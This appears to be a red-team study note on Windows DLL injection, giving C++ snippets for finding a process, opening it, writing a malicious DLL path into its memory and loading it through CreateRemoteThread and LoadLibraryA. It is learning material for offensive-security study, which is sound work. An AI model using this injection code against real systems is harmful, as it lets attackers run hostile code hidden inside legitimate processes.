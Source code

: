 ```yaml
---
{"dg-publish":true,"permalink":"/cards/red-team/images/abusing-dl-ls/"}
---
```


~ [[cards/red-team/images/Abusing Windows Internals\|Abusing Windows Internals]]
### Introduction
---
**DLL injection** is a technique used to run custom code inside the address space of another process by forcing that process to load a **Dynamic Link Library (DLL)** that contains the malicious.
## Steps
---
**Step 1: Locate the Target Process**

- Use Windows API to search for the process name and obtain its PID (Process ID).
- Uses:
  - `CreateToolhelp32Snapshot` - creates a snapshot of the specified processes, threads, modules, or heaps in the system currently running.
	  - `TH32CS_SNAPPROCESS`: Indicates we want a snapshot of all processes.
  - `Process32First` - Retrieves information about the first process in the snapshot created recently -- Acts as a starting point for process enumeration.
  - `Process32Next` -- continues the iteration through the rest of the process in the snapshot.


```cpp
DWORD getProcessId(const char *processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot) {
        PROCESSENTRY32 entry;
        entry.dwSize = sizeof(PROCESSENTRY32);
        if (Process32First(hSnapshot, &entry)) {
            do {
                if (!strcmp(entry.szExeFile, processName)) {
                    return entry.th32ProcessID;
                }
            } while (Process32Next(hSnapshot, &entry));
        }
    }
}


DWORD processId = getProcessId(processName); // Stores the enumerated process ID
```

- `entry.szExeFile` holds the name of the current process being checked in the loop.
- `processName` is the process we are looking for.


**Step 2: Open the Target Process**

- Open the process using `OpenProcess` with `PROCESS_ALL_ACCESS`.
    
- This grants full permissions to manipulate memory and create threads.

```cpp
HANDLE hProcess = OpenProcess(
    PROCESS_ALL_ACCESS,
    FALSE,
    processId
);
```

**Step 3: Allocate Memory for the DLL Path**

Remember: _hProcess_ is the variable that has a handle to the target process.

```cpp
LPVOID dllAllocatedMemory = VirtualAllocEx(
    hProcess,
    NULL,
    strlen(dllLibFullPath),
    MEM_RESERVE | MEM_COMMIT,
    PAGE_EXECUTE_READWRITE
);
```

- Allocate memory in the target process to hold the DLL path string.
    
- Use `VirtualAllocEx` to allocate executable memory.

**Step 4: Write the DLL Path to Allocated Memory**

```cpp
WriteProcessMemory(
    hProcess, // Handle for the target process
    dllAllocatedMemory,// Allocated Memory In Region
    dllLibFullPath, // Path to the malicious DLL
    strlen(dllLibFullPath) + 1,
    NULL
);
```


- Write the DLL file path to the allocated region in the remote process.
    
- Use `WriteProcessMemory`.

**Step 5: Load and Execute the Malicious DLL**

```cpp
LPVOID loadLibrary = (LPVOID) GetProcAddress(
    GetModuleHandle("kernel32.dll"),
    "LoadLibraryA" // API call to import
);
HANDLE remoteThreadHandler = CreateRemoteThread(
    hProcess, // Handle for the target process
    NULL,
    0, // Default size from the executable of the stack
    (LPTHREAD_START_ROUTINE) loadLibrary,
    dllAllocatedMemory, // pointer to the allocated memory region.
    0,
    NULL
);
```


- Get the address of `LoadLibraryA` from kernel32.dll using `GetProcAddress`.
    
- Use `CreateRemoteThread` to create a new thread in the remote process.
    
- Pass the DLL path and execute the thread to load the DLL.

**Note:** as for the process name you need to input what the task manager sees so in our example

![Abusing DLLs.png](/img/user/cards/red-team/images/Abusing%20DLLs.png)
### Conclusion
---
Assuming all prerequisites are met (correct privileges, matching architecture, and a valid DLL), DLL injection involves:

1. Identifying the target process.
    
2. Opening a handle to it with appropriate access rights.
    
3. Allocating memory inside the target process for the DLL path.
    
4. Writing the full path of the malicious DLL into that allocated memory.
    
5. Using `LoadLibrary` via `CreateRemoteThread` to load and execute the DLL in the context of the target process.



